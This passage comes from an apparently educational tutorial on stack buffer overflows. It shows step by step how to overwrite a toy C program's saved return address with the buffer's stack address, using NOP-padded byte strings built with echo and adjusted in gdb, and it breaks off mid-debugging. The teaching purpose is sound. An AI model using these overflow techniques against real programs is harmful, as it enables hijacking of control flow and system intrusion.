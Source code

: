 ```console
> ./overflow "123456781234567"
&buf 0x00007fffffffe508 rbp 0x0037363534333231 rip 0x00005555555551e7
We happily returned!
```
In a final step we want to overwrite the saved *instruction pointer* `%rip` with the start address of the buffer `buf` which currently has the value`0x7fffffffe508` as the output above shows . Please take into account that the memory address has to be encoded in little-endian format, i.e.  as the byte string `\x08\xe5\xff\xff\xff\x7f`. 

Additionally we replace the first 8 bytes of the string with `nop` machine instructions that are represented by the binary code `0x90`.
```console
> export STR=`echo -e -n "\x90\x90\x90\x90\x90\x90\x90\x9012345678\x08\xe5\xff\xff\xff\x7f"`
```
We used the `echo -e` command to generate the input string containing escape characters and store the byte string in the environment variable `$STR`. The `-n` option suppressed the terminating  newline character in the `echo`output.

Now we execute `overflow`with the content of the environment variable as input
```console
> ./overflow $STR
&buf 0x00007fffffffe4e8 rbp 0x3837363534333231 rip 0x00007fffffffe508
Segmentation fault
```
We notice that due to the new environment variable `$STR` and the increased `argv[1]` input argument  the local stack of the calling shell has grown downward by 32 bytes and correspondingly the start address of `buf` on the local stack of the `copy` function has shifted to `0x7fffffffe4e8`. Therefore we adapt the input string accordingly:
```console
> export STR=`echo -n -e "\x90\x90\x90\x90\x90\x90\x90\x9012345678\xe8\xe4\xff\xff\xff\x7f"`
```
Now the return address saved on the stack is overwritten with the start address of `buf` and a *Segmentation fault* occurs.
```console
> ./overflow $STR
&buf 0x00007fffffffe4e8 rbp 0x3837363534333231 rip 0x00007fffffffe4e8
Segmentation fault
```
In order to analyze what just happened we run `overflow`in the debugger
```assembly
> gdb -n overflow
(gdb) run $STR
Starting program: /home/hacker/overflow $STR
&buf 0x00007fffffffe4a8 rbp 0x3837363534333231 rip 0x00007fffffffe4e8
Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffe4e8 in ?? ()
```
We see that the *Segmentation fault* occurred at instruction address `0x7fffffffe4e8` so the jump to the stack seems to have been successful, but due to the debugger environment the start address of `buf` has shifted again to `0x7fffffffe4a8` so we have to adapt the return address in `$STR` accordingly
```console
export STR=`echo -e -n "\x90\x90\x90\x90\x90\x90\x90\x9012345678\xa8\xe4\xff\xff\xff\x7f"`
```
We start the debugger agin and set a breakpoint at line `15`
```assembly
> gdb -n overflow
(gdb) break 15
Breakpoint 1 at 0x11b2: file overflow.c, line 15.
```
Then we run the program in the debugger up to line `15`
```assembly
(gdb) run $STR
Starting program: /home/hacker/overflow $STR
&buf 0x00007fffffffe4a8 rbp 0x3837363534333231 rip 0x00007fffffffe4a8

Breakpoint 1, copy (
```

[AS]: mailto:andreas.steffen@strongsec.net
[CC]: http://creativecommons.org/licenses/by/4.0/